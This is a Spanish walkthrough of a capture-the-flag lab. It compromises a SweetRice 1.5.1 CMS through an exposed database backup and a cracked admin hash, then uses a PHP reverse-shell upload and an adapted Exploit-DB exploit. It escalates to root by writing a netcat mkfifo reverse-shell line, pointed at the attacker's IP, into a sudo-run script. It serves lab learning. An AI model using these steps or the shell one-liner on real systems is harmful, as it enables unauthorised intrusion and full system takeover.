   
Iniciamos la VPN
![[/Untitled 40.png|Untitled 40.png]]
![[/Untitled 1 6.png|Untitled 1 6.png]]
Iniciamos la maquina
![[/Untitled 2 7.png|Untitled 2 7.png]]
Confirmamos la conexión con la ip victima
![[/Untitled 3 7.png|Untitled 3 7.png]]
A continuación, procedemos a realizar un escaneo inicial para identificar los puertos abiertos y los servicios que están funcionando en la máquina.
sudo nmap -p- --open -sS --min-rate 5000 -v -n -Pn 10.10.96.204
![[/Untitled 4 6.png|Untitled 4 6.png]]
  
Vamos a hacer uso de la herramienta whatweb para obtener las tecnologias usadas en el servicio web. (Servidor, frameworks, etc…)
  
whatweb -v http://<IP_VICTIMA>/
  
Comenzamos poniendo la ip de la victima en el navegador para atacar al puerto 80
![[/Untitled 5 6.png|Untitled 5 6.png]]
  
Aplicamos fuzzing para ver si encontramos alguna ruta curiosa
ffuf -w directory-list-2.3-medium.txt -u [http://10.10.96.204/FUZZ](http://10.10.96.204/FUZZ) -c
  
En los casos que no encontramos nada interesante al fuzzear directorios, tenemos la opcion de fuzzear rutas con extension (ficheros).
  
- ffuf cheatsheet: [https://cheatsheet.haax.fr/web-pentest/tools/ffuf/](https://www.phrack.me/tools/2022/07/06/Ffuf-cheatsheet.html)
  
![[/Untitled 6 6.png|Untitled 6 6.png]]
  
En /content encontramos lo siguiente
![[/Untitled 7 6.png|Untitled 7 6.png]]
Nos encontramos con un SweetRice, haciendo una búsqueda encontramos que la versión 1.5.1 es vulnerable.
![[/Untitled 8 6.png|Untitled 8 6.png]]
NOTA: SweetRice es un sistema de gestión de contenido (CMS) de código abierto. Al igual que otros CMS, como WordPress, Joomla o Drupal, SweetRice permite a los usuarios crear, editar, gestionar y publicar contenido en un sitio web sin necesidad de tener conocimientos avanzados de programación.
  
Al no encontrar nada mas en la web ni en el código fuente, aplicamos fuzzing a content
![[/Untitled 9 6.png|Untitled 9 6.png]]
  
![[/Untitled 10 6.png|Untitled 10 6.png]]
Revisando todos los directorios hay dos que son interesantes
Los cuales son el de /inc
![[/Untitled 11 6.png|Untitled 11 6.png]]
  
Y el de /as
![[/Untitled 12 5.png|Untitled 12 5.png]]
  
En el directorio /inc nos encontramos con un directorio que parece ser un backup de la base de datos, donde pueden encontrarse usuarios y contraseñas
![[/Untitled 13 5.png|Untitled 13 5.png]]
Accedemos al directorio y nos descargamos el archivo para poder visualizarlo
![[/Untitled 14 4.png|Untitled 14 4.png]]
En el contenido del archivo nos encontramos con lo que parecen ser unas credenciales de administrador
  
![[/Untitled 15 3.png|Untitled 15 3.png]]
manager
42f749ade7f9e195bf475f37a44cafcb
Nos dirigimos a CrackStation para ver si podemos descifrar la contraseña
![[/Untitled 16 3.png|Untitled 16 3.png]]
Ya la tenemos, vamos a probar si podemos acceder con estas credenciales en el inicio de sesión encontrado anteriormente
![[/Untitled 17 3.png|Untitled 17 3.png]]
Hemos conseguido el acceso al inicio de sesion con las credenciales de manager y Password123
Comenzamos a inspeccionar la web
Podemos ver que la versión del SweetRice es la 1.5.1
![[/Untitled 18 3.png|Untitled 18 3.png]]
Encontramos un apartado en la web que nos deja introducir código php y se sube al directorio /inc , por lo que subiremos una reverse shell en php para obtener el acceso.
Nos vamos al generador de shell e indicamos para php en este caso
![[/Untitled 19 3.png|Untitled 19 3.png]]
Nos dirigimos al apartado Ads de la web para subir la reverse
![[/Untitled 20 3.png|Untitled 20 3.png]]
Al darle a done y dirigirnos al directorio /inc nos damos cuenta de que se crea el directorio ads y dentro de este se encuentra nuestra reverse shell
![[/Untitled 21 3.png|Untitled 21 3.png]]
![[/Untitled 22 3.png|Untitled 22 3.png]]
Nos ponemos en escucha en el puerto 4444 y en el directorio donde se encuentra la reverse la ejecutamos pinchando en el documento
![[/Untitled 23 3.png|Untitled 23 3.png]]
![[/Untitled 24 3.png|Untitled 24 3.png]]
![[/Untitled 25 3.png|Untitled 25 3.png]]
Accedemos a /home para ver si encontramos el usuario
Encontramos un usuario
![[/Untitled 26 3.png|Untitled 26 3.png]]
Le hacemos cat a user.txt y obtenemos la primera flag
![[/Untitled 27 3.png|Untitled 27 3.png]]
Nos faltaria solamente la flag de root
Hacemos un sudo -l para ver que podemos ejecutar como root y comenzar la escalada de privilegios
![[/Untitled 28 3.png|Untitled 28 3.png]]
  
Le hacemos un cat a [backup.pl](http://backup.pl) para ver que contiene
![[/Untitled 29 3.png|Untitled 29 3.png]]
Este fichero llama a un .sh, vamos a ver que contiene el fichero que ejecuta
![[/Untitled 30 3.png|Untitled 30 3.png]]
  
Comprobamos los permisos del fichero para ver si tenemos posibilidad de escribir en el.
ls -la /etc | grep copy.sh
  
![[/Untitled 31 3.png|Untitled 31 3.png]]
  
Parece que nos encontramos con una reverse shell que apunta a esa dirección ip, si podemos cambiar esa dirección a la nuestra podemos tener acceso como root.
Intentamos con nano cambiar el contenido del archivo
![[/Untitled 32 3.png|Untitled 32 3.png]]
No nos deja acceder con nano ni vi por lo que intentamos con un echo imprimir el mismo contenido con nuestra ip sobre el archivo copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.57 5556 >/tmp/f
![[/Untitled 33 3.png|Untitled 33 3.png]]
Nos ponemos en escucha en el puerto indicado (5556)
![[/Untitled 34 3.png|Untitled 34 3.png]]
Ejecutamos el comando encontrado en el sudo -l
![[/Untitled 35 3.png|Untitled 35 3.png]]
Ya escalamos los privilegios y somos root, vamos a por la bandera de root
![[/Untitled 36 2.png|Untitled 36 2.png]]
  
---
  
Segunda manera de introducir la reverse shell desde la web
![[/Untitled 8 6.png|Untitled 8 6.png]]
  
Creamos el exploit con el contenido que encontramos en exploit database, cambiando el contenido con nuestras necesidades
![[/Untitled 37 2.png|Untitled 37 2.png]]
![[/Untitled 38 2.png|Untitled 38 2.png]]
Cambios
![[/Untitled 39 2.png|Untitled 39 2.png]]
El host lo cortamos en content ya que encontramos esta parte del código, nos especifica donde guarda el documento
![[/Untitled 40 2.png|Untitled 40 2.png]]
Con estos cambios, ya es funcional el exploit, como vemos en el input donde especificamos el documento acepta php5, crearemos un documento en php5 que nos ejecute un whoami
![[Untitled 41.png]]
Ejecutamos el exploit
![[Untitled 42.png]]
Accedemos a la url señalada y comprobamos que tenemos RCE
![[Untitled 43.png]]
Modificamos el archivo shell.php y le añadimos una reverse shell
![[Untitled 44.png]]
Ejecutamos el exploit para resubir el archivo con la reverse shell
![[Untitled 45.png]]
Nos ponemos en escucha en el puerto indicado en la reverse shell (4444)
![[Untitled 46.png]]
Accedemos a la direccion donde se encuentra el archivo shell.php5 para que se ejecute la reverse shell
![[Untitled 47.png]]
Ya tendríamos el acceso